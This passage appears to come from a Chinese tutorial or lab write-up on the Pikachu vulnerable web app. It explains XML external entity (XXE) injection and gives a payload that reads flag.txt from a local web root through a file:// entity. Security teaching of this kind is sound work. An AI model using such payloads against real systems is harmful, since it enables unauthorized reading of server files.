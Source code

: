 ![动画](pikachu靶场/动画-16698775134931.gif)

<br>	

## 利用实例

xml外部引用不仅支持file协议, 还支持http, ftp协议

如下代码所示, 利用file协议读取网站根目录下的flag.txt文件

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY[ 
<!ENTITY file SYSTEM "file:///E:/phpStudy/WWW/flag.txt">
]>
<x>&file;</x>
```
